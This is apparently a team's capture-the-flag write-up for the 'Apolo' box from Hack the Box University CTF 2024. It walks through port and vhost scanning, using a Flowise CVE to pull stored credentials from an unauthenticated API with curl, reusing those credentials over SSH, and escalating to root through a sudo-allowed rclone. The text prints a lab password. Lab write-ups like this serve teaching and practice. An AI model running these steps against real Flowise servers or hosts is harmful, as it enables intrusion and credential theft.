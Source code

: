 #Apolo

Apolo is the first of the three full pwn challenges that we solved with *GCC* during the *Hack the Box University CTF 2024: Binary Badlands*

A full pwn challenge is composed of two flags that we have to find in order to complete it, the first one being the user flag and the second one being the root flag. We are given the ip address of a machine / box and we have to first get a RCE on the machine in order to have the user flag, and then privesc in order to get the root flag. 
## Reconnaissance 

```
Nmap scan report for apolo.htb (10.129.242.73)

Host is up (0.015s latency).

rDNS record for 10.129.242.73: apolo.htb

Not shown: 998 closed tcp ports (conn-refused)

PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)+

| ssh-hostkey: 

|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)

|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)

|_  256 189d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)

80/tcp open  http    nginx 1.18.0 (Ubuntu)

|_http-title: Flowise - Low-code LLM apps builder

|_http-server-header: nginx/1.18.0 (Ubuntu)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_ker

```

We also check for vhost using ffuf : 

`ffuf -c -w /user/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "[http://$target/](about:blank)" -H "Host: FUZZ.$TARGET" -fc 301`

And we get a hit on a subdomain : `ai.apolo.htb`

Let’s add these two entries in our `/etc/hosts` and enumerate the two hosts : 
```
10.129.242.73 apolo.htb
10.129.242.73 ai.apolo.htb
```
  
The first webpage `apolo.htb` is just a full static website with nothing interesting, our directory fuzzing wasn’t very concluding so we decided to check the other vhost. 

Upon accessing `ai.apolo.htb` we are prompted with a login form for a flowiseai  instance. 

![Login form](/HTB-UNIVERSITY-2024/images/login_form.png)

Checking the version number of the flowingAI instance revealed that it was vulnerable to this CVE : [https://www.exploit-db.com/exploits/52001](https://www.exploit-db.com/exploits/52001)

After using the POC on the website we can confirm that it's indeed vulnerable
 
```
curl [http://ai.apolo.htb/Api/v1/credentials](http://ai.apolo.htb/Api/v1/credentials) [{"id":"6cfda83a-b055-4fd8-a040-57e5f1dae2eb","name":"MongoDB","credentialName":"mongoDBUrlApi","createdDate":"2024-11-14T09:02:56.000Z","updatedDate":"2024-11-14T09:02:56.000Z"}`
```
## User flag

So we can now `curl [http://ai.apolo.htb/Api/v1/credentials6cfda83a-b055-4fd8-a040-57e5f1dae2eb](http://ai.apolo.htb/Api/v1/credentials6cfda83a-b055-4fd8-a040-57e5f1dae2eb)`

And retrieve some credentials : 

```
Username: lewis

Password: C0mpl3xi3Ty!_W1n3

Cluster: cluster0.mongodb.net

Database: myDatabase
```

We could then login onto the flowiseAI instance we thought we had to RCE from there, but a teammate of us pointed out that these credentials could be used to authenticate on the server using SSH. 

![ssh_login](/HTB-UNIVERSITY-2024//images/ssh_login.png)
And voilà : we have our user.flag in the usual location (/home/lewis/user.txt)

 ![user_flag](/HTB-UNIVERSITY-2024//images/user_flag.png)
## Root flag

Now that we have a shell on the box, let’s check out what our user can execute on the machine : 

![sudo_L](/HTB-UNIVERSITY-2024//images/sudo_L.png)

We are allowed to execute /usr/bin/rclone with sudo permissions on the machine. 

When checking out the man and help page of the rclone command we have : 

`Rclone  is a command-line program to manage files on cloud storage.  It is a feature-rich alternative to cloud vendors web storage interfaces.`

![rclone](/HTB-UNIVERSITY-2024//images/rclone.png)

We can execute cat through rclone, and since we can execute rclone with root priviledges, we can simply : 

![rootflag](/HTB-UNIVERSITY-2024//images/rootflag.png)
